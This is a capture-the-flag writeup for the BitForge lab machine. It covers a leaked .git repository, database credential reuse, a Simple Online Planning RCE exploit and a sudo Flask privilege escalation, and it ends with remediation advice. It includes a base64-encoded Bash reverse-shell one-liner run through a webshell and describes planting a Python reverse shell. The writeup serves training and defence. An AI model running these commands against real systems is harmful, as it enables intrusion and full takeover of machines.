# BitForge (OffSec Proving Grounds) Writeup

## Enumeration
#### Nmap Scan Results
Nmap scan shows 3 open TCP ports.
An Apache web server is running on port 80, with a redirection to http://bitforge.lab, while SSH is running on port 22 and MySQL is running on port 3306. Nmap also detects a `.git` directory in the web server's root directory.


The host `bitforge.lab` is added to `/etc/hosts` to resolve the hostname to the target machine's IP address.


The web application is mostly empty, and most buttons and features, including the login page, do not work.


However, the `EMPLOYEE PLANNING PORTAL` button redirects to a different virtual host at http://plan.bitforge.lab


This host is also added to the `/etc/hosts` file


The planning portal uses the Simple Online Planning application version 1.52.01


A Remote Code Execution vulnerability affects this version of Simple Online Planning (CVE-2024-27115), and a public exploit is available on Exploit-DB and can be found using `searchsploit`. However, the exploit requires authentication.


The previous Nmap scan revealed a `.git` directory in the web server's root directory. Since it is accessible, the repository can be downloaded and its commit history examined for potentially sensitive information.


`git-dumper` is used to clone the repository


Reviewing the commit history with `git log` reveals a commit mentioning hardcoded credentials in `db-config`.


Inspecting the commit reveals database configuration details, including credentials for the `bitforgeadmin` user on the MySQL server.


The MySQL CLI is then used to connect to the MySQL server with the obtained credentials.


Enumerating the available databases reveals that the database used by Simple Online Planning is also accessible.


The `soplanning` database contains the `planning_user` table, most likely storing credentials for application users.


The credentials for the `admin` account are retrieved from the `planning_user` table.


Simple Online Planning typically stores users' passwords as SHA-1 hashes. However, a dictionary-based attack with `Hashcat` fails to crack the `admin` account's password. Reading through the Simple Online Planning documentation on [Worteks' GitHub](https://github.com/Worteks/soplanning) reveals that the default password for the application is `admin`, with the corresponding hash being `df5b909019c9b1659e86e0d6bf8da81d6fa3499e`.


The password for the `admin` account can be changed directly through the MySQL server by updating the password field in the `planning_user` table. The hash from the Simple Online Planning documentation is used to set the password to `admin`.

## Initial Access
With the `admin` account's credentials at hand, access to the Simple Online Planning web application is obtained.


The [Proof of Concept from Exploit-DB](https://www.exploit-db.com/exploits/52082) can now be used to gain remote code execution on the target system. The exploit accepts three arguments and uploads a webshell to the web server, while also providing an interactive shell if preferred.


The exploit is successful and command execution is obtained.


To capture command output reliably and run enumeration tools, the webshell is used to establish a reverse shell, providing a more interactive shell through a Netcat listener.
First, a Bash reverse shell one-liner is encoded in Base64. Double spaces are added before the `>&` and `0<&1` operators to ensure that the resulting Base64 string contains no `+` characters, which could otherwise be interpreted as spaces when passed through the webshell.
A `Netcat` listener is also prepared on port 80, which is used to potentially bypass firewall restrictions.


The following command is then passed through the webshell
```
echo YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTkyLjE2OC40NS4xNzMvODAgMD4mMQ== | base64 -d | bash
```
A reverse shell is established through the `Netcat` listener, and a PTY shell is spawned using `Python`. Running `whoami` confirms that the shell is running as the `www-data` user.

## Privilege Escalation
Enumeration of the `/home` directory reveals a local user named `jack`



No SUID binaries, sudo privileges, cron jobs, or kernel vulnerabilities are identified during enumeration of the target as the `www-data` user. However, running `pspy` reveals a `mysqldump` command that uses credentials belonging to the `jack` user.


The credentials are used to access the system through SSH as the user `jack`


`sudo -l` reveals that `jack` can run the `flask_password_changer` binary as `root` with no password requirement


The binary executes a Bash script that changes the working directory to `/opt/password_change_app` and then runs `flask` without specifying an application file or path.


Inspecting the `/opt/password_change_app` directory reveals that the `app.py` file, likely used by Flask as the application entry point, is writable by the compromised user.


Since the directory is also writable by `jack`, the file can be replaced with a malicious Python script that will be executed with elevated privileges. For that purpose, the following Python reverse shell script is prepared. The script points to port 3306 on the attacking machine to potentially bypass firewall restrictions.


A Python web server is prepared using the `http.server` module
```
python -m http.server 80
```

The original `app.py` script is then replaced with the malicious one


Once everything is set up, `sudo` can be used to run the password changer app
```
$ sudo /usr/bin/flask_password_changer
```

A root shell is obtained, with `Netcat` receiving the reverse shell connection.


The user flag is retrieved from `jack`'s home directory


The root flag is also retrieved from `root`'s home directory


## Findings & Remediation

### Exposed Git Repository and Sensitive Credentials
#### Description
The web server exposes a `.git` directory, allowing access to the repository's commit history. A previous commit contains hardcoded MySQL credentials, which can be used to access the database and modify the `admin` account's password hash in the `planning_user` table.
#### Impact
An attacker can retrieve sensitive credentials, gain unauthorized access to the MySQL server, and modify application account credentials to gain access to the web application.
#### Remediation
Restrict public access to the `.git` directory through the web server. Remove sensitive credentials from the repository and its history, rotate any exposed credentials, and apply the principle of least privilege to database accounts. Limit database permissions to the operations and tables required by the application.

### Remote Code Execution in Simple Online Planning
#### Description
The target runs Simple Online Planning version 1.52.01, which is vulnerable to remote code execution. A publicly available exploit can be used to upload a webshell and execute commands on the target system.
#### Impact
An attacker with valid application credentials can exploit the vulnerability to execute arbitrary commands on the server, potentially gaining an initial foothold on the system.
#### Remediation
Upgrade Simple Online Planning to a patched version. If the application is no longer required, remove it. Restrict access to the application and ensure that uploaded files cannot be executed by the web server.

### Credentials Exposed in Process Arguments
#### Description
A `mysqldump` process running as `root` exposes credentials for the `jack` user in its command-line arguments, which can be observed using process enumeration tools.
#### Impact
A local user may retrieve the exposed credentials and use them to gain access as `jack`, depending on the permissions and services available to that account.
#### Remediation
Avoid passing passwords directly as command-line arguments. Use a protected MySQL option file or another secure credential-handling mechanism, and restrict access to sensitive process information and credential files.

### Sudo Misconfiguration
#### Description
The `jack` user can run the `flask_password_changer` script as `root` without a password. The script changes to `/opt/password_change_app` and runs `flask`, while the directory and its `app.py` file are writable by `jack`. This allows the application code to be replaced with a malicious Python script that executes with `root` privileges.
#### Impact
A user with access to the `jack` account can execute arbitrary commands as `root`, resulting in full compromise of the target system.
#### Remediation
Remove unnecessary `NOPASSWD` sudo permissions and restrict the permitted command to the minimum required functionality. Ensure that the application directory and its code files are owned by a privileged account and cannot be modified by unprivileged users. Avoid running privileged applications from directories containing user-writable files.